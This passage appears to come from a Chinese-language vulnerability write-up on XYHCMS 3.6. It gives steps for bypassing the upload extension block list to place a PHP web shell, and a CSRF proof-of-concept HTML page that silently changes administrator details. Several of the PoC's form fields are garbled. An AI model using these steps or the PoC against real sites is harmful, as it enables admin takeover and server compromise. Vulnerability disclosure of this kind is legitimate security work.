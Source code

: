 ![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcpPWgExEMw7AVG62oQRleu2icHNWPzOcjonNDLxbrjhSXoWial7h7U5nWougicYcUp4posNg29wuRwLQ/640?wx_fmt=png)  
会看到她不允许的文件后缀有：php,asp,aspx,jsp。

我们可以通过这个思路，上传 php3-5，phtml 文件后缀的文件就能够绕过限制。  

#### 漏洞复现

1. 进入后台

  
2. 系统设置 -> 网站设置 -> 上传配置 -> 允许附件类型

  
3. 添加类型 php3 或 php4 或 php5 或 phtml

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcpPWgExEMw7AVG62oQRleu2qNs3QJibmiajZG2HHYCw883eBH6MWbYhYWia2oSDZrQpGspEficPEqicrvw/640?wx_fmt=png)  
  

4. 点击下面的 水印图片上传上传以上后缀 shell

  
5. 之后会在图片部分显示上传路径

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcpPWgExEMw7AVG62oQRleu2WKwjJY5f5OHyee3Z7ePBCCia8bMhQu2BEe84yWrxOU0wPJL45zicxXxg/640?wx_fmt=png)

### 六. XYHCMS 3.6 CSRF 漏洞

#### 漏洞介绍

此版本存在一个 csrf 漏洞，可以更改管理员的任何信息（姓名、电子邮件、密码等）。

#### 漏洞复现

poc：

```
<html>
  <head>
      <script>
          function submit(){
            var form = document.getElementById('test_form');
            form.submit();
          }
</script>
  </head>
    <body onload="submit()">
  <script>history.pushState('', '', '/')</script>
    <form action="http://xyh.com/xyhai.php?s=/Auth/editUser" method="POST">
      <input type="hidden"  />
      <input type="hidden"  />
      <input type="hidden"  />
      <input type="hidden" name="department[]" value="1" />
      <input type="hidden" name="department[]" value="4" />
      <input type="hidden" name="department[]" value="3" />
      <input type="hidden" name="group_id[]" value="1" />
      <input type="hidden"  />
      <input type="hidden" aa@test.com" />
      <input type="hidden"  />
    </form>
  </body>
</html>
```
